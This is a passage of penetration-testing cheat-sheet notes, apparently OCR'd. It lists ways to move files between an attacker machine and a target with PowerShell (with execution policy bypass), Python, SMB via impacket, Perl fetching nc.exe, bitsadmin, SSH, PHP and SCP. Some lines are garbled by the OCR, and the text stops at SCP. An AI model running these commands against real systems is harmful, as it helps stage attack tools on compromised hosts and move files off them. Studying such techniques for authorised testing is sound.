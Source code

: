         -   powershell.exe --ExcecutionPolicy Bypass --NoLogo -NonInteractive

        -    powershell -command \"(New-Object [System.Net].WebClient).DownloadFile(\'[http://192.168.1.5:8000/file.txt\',\'c][]:\\users\\test\')\"  

    -   **Python**

        -   python -c \"import urllib.request; urllib.request.urlretrieve(\'<http://10.10.10.10/cat.jpg>\', \'C:\\\\Users\\\\Public\\\\Downloads\\\\cat.jpg\');\"

    -   **SMB**

        -   we will use a python script that activates SMB service in our Linux machine

        -   wget <https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py>

        -   python smbserver.py anyname /root/share

        -   in windows : net use

        -   Download the file in windows

            -   Run cmd then \\\\192.168.1.108

        -   Download the file in linux

            -   apt-get install smbclient -\> for accessing share folder of smb server

            -   smbclient -L 192.168.1.108

                -   ls

                -   get file.txt

    -   **Perl**

        -   perl -le \"use File::Fetch; my \$ff = File::Fetch-\>new(uri =\> \'[http://10.10.10.10/nc.exe\');] my \$file = \$ff-\>fetch() or die \$ff-\>error;\"

    -   **BitsAdmin**

        -   BITSAdmin is a command-line utility for window platform that allows the user to download and uploading of a file.

        -   bitsadmin /transfer job \[link\] \[location\_on\_disk\]

    -   **SSH**

        -   ssh HOST " cat \< LOCALFILE " \> REMOTEFILE

        -   ssh root\@10.11.0.105 \"cat exploit\" \> exploit // To get files from the attacking machine

        -   ssh root\@10.11.0.105 \"cat \> proof.txt\" \< proof.txt // To put files to the attacking machine

    -   **php**

        -   echo \"\<?php file\_put\_contents(\'nameOfFile\', fopen(\'<http://192.168.1.102/file>\', \'r\')); ?\>\" \> down2.php

    -   **SCP**

        -   upload a file:
